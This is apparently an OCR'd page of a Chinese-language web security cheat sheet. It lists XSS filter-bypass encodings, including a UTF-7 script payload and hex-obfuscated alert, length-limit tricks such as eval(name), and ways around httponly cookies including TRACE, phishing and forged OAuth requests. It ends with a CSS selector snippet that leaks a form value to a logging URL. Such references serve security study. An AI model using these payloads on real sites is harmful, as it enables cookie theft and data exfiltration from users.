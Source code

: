 	– base64
	– jsfuck  

​	– String.fromCharCode
​	– HTML
​	– URL
​	– hex
​		\* window["\x61\x6c\x65\x72\x74"]
​	– unicode
​	– utf7
​		\* +ADw-script+AD4-alert('XSS')+ADsAPA-/script+AD4-
​	– utf16
• 大小写混淆
• 对标签属性值转码
• 产生事件
• css 跨站解析
• 长度限制 bypass
​	– eval(name)
​	– eval(hash)
​	– import
​	– $.getScript
​	– $.get
• .
​	– 使用 。 绕过 IP/域名
​	– document['cookie'] 绕过属性取值
• 过滤引号用 ‘‘ ‘ ‘‘ 绕过  

**2.9 技巧**

**httponly**

• 在 cookie 为 httponly 的情况下，可以通过 xss 直接在源站完成操作，不直接获取 cookie。
• 在有登录操作的情况下，部分站点直接发送登录请求可能会带有 cookie
• 部分特定版本的浏览器可能会在 httponly 支持/处理上存在问题
• 低版本浏览器支持 TRACE / TRACK，可获取敏感的 header 字段  

• phpinfo 等页面可能会回显信息，这些信息中包含 http 头
• 通过 xss 劫持页面钓鱼
• 通过 xss 伪造 oauth 等授权请求，远程登录  

**CSS注入**

CSS 注入最早开始于利用 CSS 中的 expression() url() regex() 等函数或特性来引入外部的恶意代码，但
是随着浏览器的发展，这种方式被逐渐禁用，与此同时，出现了一些新的攻击方式。  

**CSS selectors  **

```
<style>
#form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
#form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
#form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
[...]
</style>
<form action="http://example.com" id="form2">
<input type="text" id="secret" name="secret" value="abc">
</form>
```
